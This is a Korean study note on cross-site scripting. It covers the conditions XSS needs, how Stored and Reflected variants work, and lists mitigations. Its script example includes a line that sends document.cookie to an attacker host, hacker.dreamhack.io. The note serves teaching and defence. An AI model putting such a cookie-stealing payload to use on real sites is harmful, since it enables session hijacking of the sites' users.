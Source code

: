 # XSS

공격자의 입력값이
자바스크립트의 일부로 웹 브라우저에서
실행되는 취약점을 말한다.

## xss를 성공하기 위해서

XSS공격을 성공하기 위해서는
통상적으로 두가지의 조건이 전제되어야 한다.

    1. 입력 데이터에 대한 충분한 검증 과정이 없어야 한다.
        - 입력한 데이터가 충분한 검증 과정이 없어,
          악성스크립트가 삽입 될 수 있어야 한다.
    
    2. 서버의 응답 데이터가 웹 브라우저 내 페이지에
       출력 시 충분한 검증 과정이 없어야 한다.
       - 웹 브라우저에서 출력 시 필터링에 걸리지 않아야한다.

이들의 대표적인 예시로는 게시판 서비스이며,
이는 게시글이 검증되지 않을 경우 해당 게시글의 이용자들이
악성스크립트가 그대로 실행되기 때문에 위험하다.
```txt
+ 악성스크립트가 전달되는 방식에 따라
  Stored XSS
  Reflected XSS
  등 여러가지로 나뉜다.
  
  하지만 취약점의 원인은 동일하다.
```

## XSS with Javascript

JS는 사용자의 웹 브라우저에서 동적으로 보여주거나,
화면 구성을 변환하거나, 자동으로 버튼을 누르는 등의
작업을 할 때 많이 사용된다.

이런 JS는 웹 브라우저나 웹의 입장에서 상당히 접근성이 높기에
페이지 내용 조작, 위치 주소 변경, 개인정보 유출 등 다양한 방식으로
동작 시킬 수 있기때문에 이는 XSS에 다양하게 이용된다.

이를 작동시키는 대표적인 방법은
```html
    <script>
        alert("hello");
        //hello 문자열 alert 실행

        document.cookie; 
        //현재 페이지의 cookie 리턴

        alert(document.cookie);
        //현재 페이지의 cookie값 alert 실행

        document.cookie = "name=test;";
        //도큐먼트의 쿠키 생성, (key: name, value: test)

                
        new Image().src = "http://hacker.dreamhack.io/?cookie=" + document.cookie;
        // new Image() 는 이미지를 생성하는 함수이며,
        // src는 이미지의 주소를 지정. 공격자 주소는 http://hacker.dreamhack.io
        // "http://hacker.dreamhack.io/?cookie=현재페이지의쿠키"
        //주소를 요청하기 때문에 공격자 주소로 현재 페이지의 쿠키 요청함
    </script>
```
이 처럼 script태그를 이용하는 방식이 있으며,
특정상황을 이용하는 on* 이벤트들을 이용하는 경우도 있다.

## Stored XSS

이는 악성 스크립트가 서버 내에 저장되어있다가,
사용자가 이 스크립트를 조회하는 순간
발생하는 형태의 XSS이다.

이는 게시판과 같은 형태에서는
불특정 다수에게 공격이 가능하다는 점에서
높은 파급력이 생길 가능성이 존재한다.

## Reflected XSS

이는 악성스크립트가 사용자의 요청 시
전송되는 형태이다.

사용자의 요청 데이터가 서버의 응답에
포함되는 과정에서 악성스크립트가
그대로 출력되어 발생하게 된다.

이는 Stored XSS와는 다르게 사용자의 요청 데이터에
의해 취약점이 발생하기 때문에,
변조된 데이터가 사용자의 요청으로
전송되는 형태를 유도하여야 한다.

가장 간단한 방법은 특정 링크를 유도하는 방식이 있으며,
Click Jacking, Open Redirect등의
취약점과 연계할 수 있다.

대표적인 예로는 게시물들을 조회하기 위해
입력한 데이터에 의한 방식이 있다.
해당요청에 의하여 조회 한 결과를 응답에 출력하는데,
이때 서버가 제대로 방어를 하지않으면
Reflected XSS로 이어질 수 있다.

## 해결방안

  1. Server-side Mitigations
  2. HTTPOnly 플래그 사용
  3. Content Security Policy 사용
  4. X-XSS-Protection
